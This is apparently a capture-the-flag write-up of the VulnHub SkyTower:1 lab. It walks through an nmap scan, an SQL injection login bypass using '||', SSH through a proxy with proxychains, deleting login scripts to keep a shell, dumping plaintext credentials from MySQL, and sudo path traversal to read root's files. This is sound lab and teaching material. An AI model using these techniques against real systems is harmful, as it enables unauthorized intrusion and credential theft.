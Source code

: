 Source: https://www.vulnhub.com/entry/skytower-1,96/
Difficulty: Medium
Target: 10.0.0.30

![image](https://user-images.githubusercontent.com/76552238/157845805-162aa64e-6e53-4123-9e7d-059f7d1c857a.png)

## NMAP

    nmap -sS -A -T4 -p- 10.0.0.30

![image](https://user-images.githubusercontent.com/76552238/157846211-9dcbe2be-3b51-4d9d-8237-c177e16f1c13.png)

After performing a NMAP scan we see we have 2 open services and one filtered.
My guess is we are going to get credentials from the site on HTTP and redirect our login to ssh from the proxy server.

## HTTP

![image](https://user-images.githubusercontent.com/76552238/157846607-ec4aff07-cf05-40fb-a033-96f5056fcd2e.png)

Going to **http://10.0.0.30** we need to login with an email and password. There are no comments we can find with dev tools. Maybe a sql injection works? 

![image](https://user-images.githubusercontent.com/76552238/157846557-68f4bff8-36a1-4bdf-9c35-1c7b7597b8f2.png)

Entering ' in the login information we have a SQL syntax error.
Trying 'or 1=1# doesn't seem to work, by what the error displayed seems that "or" is being ignored. 

![image](https://user-images.githubusercontent.com/76552238/157847050-f6ced50e-ad55-4b8c-b171-07910c60c787.png)

We can confirm this by entering a random string.

![image](https://user-images.githubusercontent.com/76552238/157847363-df5a3e84-431f-41b2-9ace-7c692cbf7002.png)

![image](https://user-images.githubusercontent.com/76552238/157847195-c44485f6-afee-4e64-95d9-15891b81bd31.png)

Let's try using "||" instead of "or".

![image](https://user-images.githubusercontent.com/76552238/157847467-e865efc1-4131-4851-9b83-6c9e26db2021.png)

And it works!! We get this message.

![image](https://user-images.githubusercontent.com/76552238/157847516-19955fba-2547-4ae6-846b-17617aa1f90a.png)

Now we can connect via ssh with the credentials for John. Since SSH is filtered (Filtered means that a firewall, filter, or other network obstacle is blocking the port) only the proxy server is allowed login access to the machine, so let's use the 'proxychains' command and add the proxy to our list.
Going to /etc/proxychains.conf we can add "http 10.0.0.32 3128" to our proxy list.

![image](https://user-images.githubusercontent.com/76552238/157847899-83989669-cfed-4f2e-91b1-fc4418d44d98.png)

    proxychains ssh john@10.0.0.30

![image](https://user-images.githubusercontent.com/76552238/157848148-a1a2f0fc-3095-439d-975c-bbe103c31f36.png)

After logging to the machine we are immediately logged out. Maybe starting a shell will work.

     proxychains ssh john@10.0.0.30 /bin/sh

![image](https://user-images.githubusercontent.com/76552238/157848479-b5007924-a3dd-4415-902a-756efe1c38e3.png)

And it works.

I searched on Google and found that the '.bashrc' and '.bash_logout' files are responsible for actions on login, so we can delete them and see if we can login normally.

![image](https://user-images.githubusercontent.com/76552238/157848664-bd5ab785-8ea9-474e-9c87-690a28c2a506.png)

     proxychains ssh john@10.0.0.30

![image](https://user-images.githubusercontent.com/76552238/157848736-d18123a8-c7c2-452f-a21a-97d8ddd5a31b.png)

Going to the /home folder we find 2 more users.

![image](https://user-images.githubusercontent.com/76552238/157848923-5d3ef7cd-87c7-43a6-b4e8-c45e074ddb58.png)

I used 'sudo -l' to see if we have any sudo permissions but we don't, there are also no SUID files we can exploit.

Going to /var/www we can read the login.php page and find credentials for the user 'root' on mysql.

![image](https://user-images.githubusercontent.com/76552238/157849212-b804eb2a-72b4-446d-8cc0-84a8a425a596.png)

![image](https://user-images.githubusercontent.com/76552238/157849807-e39d8963-6744-4b21-a491-cbd8d97860ad.png)

    mysql> show databases;
    +--------------------+
    | Database           |
    +--------------------+
    | information_schema |
    | SkyTech            |
    | mysql              |
    | performance_schema |
    +--------------------+

    mysql> use SkyTech
    Database changed

    mysql> show tables;
    +-------------------+
    | Tables_in_SkyTech |
    +-------------------+
    | login             |
    +-------------------+

    mysql> select * from login;
    +----+---------------------+--------------+
    | id | email               | password     |
    +----+---------------------+--------------+
    |  1 | john@skytech.com    | hereisjohn   |
    |  2 | sara@skytech.com    | ihatethisjob |
    |  3 | william@skytech.com | senseable    |
    +----+---------------------+--------------+

Trying to log into the user 'sara' we once again need to delete the .bashrc and .bash_logout files.

    sudo -l

![image](https://user-images.githubusercontent.com/76552238/157850699-a5b2f3e8-3637-4142-82b2-5775f9d8b390.png)

We can use the "cat" and "ls" command as root only from the /accounts directory.

    sudo ls /accounts/../root

![image](https://user-images.githubusercontent.com/76552238/157850969-7520dc88-0146-42be-8a67-cda97778aad9.png)

    sudo cat /accounts/../root/flag.txt

![image](https://user-images.githubusercontent.com/76552238/157851077-0c4f1f7e-eaa6-44df-90af-44fbb1417392.png)

Nice! we now have found the flag.txt and the password for the root user, we can now switch to the root user to finish the machine.

![image](https://user-images.githubusercontent.com/76552238/157851227-5e4364b2-e6a8-4417-a579-1920189c0bd4.png)
